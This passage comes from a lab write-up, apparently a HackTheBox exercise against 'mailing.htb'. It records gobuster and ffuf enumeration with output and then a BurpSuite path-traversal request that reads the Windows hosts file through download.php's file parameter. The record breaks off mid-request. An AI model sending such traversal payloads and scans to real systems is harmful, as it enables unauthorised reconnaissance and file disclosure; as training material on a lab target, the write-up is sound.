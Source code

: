 gobuster dir -u http://mailing.htb dns -x php --wordlist /usr/share/wordlists/dirb/big.txt -o gobuster.root

---OUTPUT---
/Download.php         (Status: 200) [Size: 31]
/Index.php            (Status: 200) [Size: 4681]
/assets               (Status: 301) [Size: 160] [--> http://mailing.htb/assets/]
/download.php         (Status: 200) [Size: 31]
/index.php            (Status: 200) [Size: 4681]
/instructions         (Status: 301) [Size: 166] [--> http://mailing.htb/instructions/]
```
- No output for ffuf:
	```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt:FUZZ -u http://mailing.htb/ -H 'Host: FUZZ.mailing.htb' -fs 4681

---OUTPUT---
Nothing of value..
```

## Website Enumeration

### Direct
- website url changed to mailing.htb when trying to access 10.10.11.14
	- add to /etc/hosts
- uses hMailServer
	- File Inclusion vulnerability found online
- link to download pdf:
	- http://mailing.htb/download.php?file=instructions.pdf
- 3 teams with 3 names:
	- Ruy Alonso - IT Team
	- Maya Bendito - Support Team
	- Gregory Smith - Founder and CEO

### Via BurpSuite (Exploiting Directory Traversal Vulnerability)
- We test for path traversal
	- Windows host file:
		- ..\..\Windows\System32\drivers\etc\hosts
			![[Pasted image 20250408080818.png]]
		- The GET Request:
			```bash
GET /download.php?file=..\..\Windows\System32\drivers\etc\hosts HTTP/1.1
Host: mailing.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://mailing.htb/index.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i
